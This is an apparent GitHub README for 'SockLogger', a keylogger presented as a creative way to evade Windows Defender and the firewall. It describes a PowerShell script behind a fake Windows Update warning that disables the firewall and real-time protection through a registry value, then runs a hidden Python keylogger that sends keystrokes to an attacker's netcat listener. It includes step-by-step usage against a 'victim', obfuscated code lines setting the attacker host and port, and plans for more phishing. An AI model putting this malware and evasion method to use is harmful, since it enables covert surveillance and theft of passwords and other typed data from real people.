 # SockLogger
A NICE-creative way to evade 'Real Time Protection' and 'Windows Firewall' on windows OS, and obtain victim key-strokes by obfuscates keylogger and using 'nc' on remote machine. While i was looking for a way to make a simple keylogger, i tought it would be interesting to make an obfuscated keylogger which will executed upon a running .ps1(PowerShell Script) with a fake message says something about critical problems that must be handle right now using windows update. Started to make a script that will make 3 things. anyway, it must! first run as Administrator privilege.
#### InShort:
1. Turn off the Windows Firewall Center.
2. enject a malicious DWORD on the registry which will make the real time protection going down upon a reboot.
3. Disable the real time protection.
4. Save keystrokes on the C:\Windows\System32 directory and obtain it using a python to open a server on the victim machine [Port 2222].
5. When the the SockLogger-Obfuscate.pyw gets execute [ Using .pyw for making it run in the background ], it's send the keystrokes of the victim to a remote machine [ Attacker ] on the other side by using the next command for listening in a loop: 'while true; do nc -lvnp [PORT]; done' [ in my case is PORT 8080 ].

![1](https://user-images.githubusercontent.com/90532971/196167464-4af42a03-e099-4c1f-ac87-d8f5b1b7dd4f.png)

# Usage
I made a test on my local windows 10 x64  machine [ VICTIM ] and it works perfectly.
<pre>
1. git clone the reposotory.
2. cd SockLogger.
3. open a new terminal, press Ctrl+Shift+R and and terminal will split into two windows.
4. On window number 1 with the help of using a python, open a server to your local machine on the SockLogger folder.
5. On window number 2, use the on-top-command i wrote for a loop over and over.
6. Download the script on the victim machine [ Real time protection 'ON' || Windows Firewall 'ON' ]
7. after run it, wait for powershell window to gone. try typing something and head over to the attacker machine.
8. On window number 2, you should see the keystrokes you made [ On victim machine ]
</pre>
  
![fff](https://user-images.githubusercontent.com/90532971/196167908-15377efc-6201-4da1-a5a9-b2ef8ae23fb3.png)

# Updates
This code is just a test while trying for a ways of not only using obfuscation ways, but also using a creative ways of bypass the windows defender/real time protection. still, i want to make a better code which not only contain a phishing message, but also a one that will actually restart the victim's computer, and when it load's again, the script will make another things reffers to protection and bypassing it.
  
<h4>Note:</h4>Change Machine IP in the .ps1/pyw script under the lines:

<pre>
${MAc`H`iNe} = ("{5}{2}{0}{3}{1}{4}"-f '://','.0.0.21','tp','10',':','ht') - .ps1 script

m.connect(("10.0.0.21", 8080)) - .pyw script
</pre>

in my case, the .ps1 was 10.0.0.21 on port 80, and the listener was on port 8080. please, if you are having any problems, i would like to know. soon i will make a python script which will execute it all in one code. please notice that the .pyw script {python} saved at 'C:\Users\public' directory

# Requirements
Victim must have python installed on computer(python3). When script gets executed, it will install using pip the 'pynput' package.
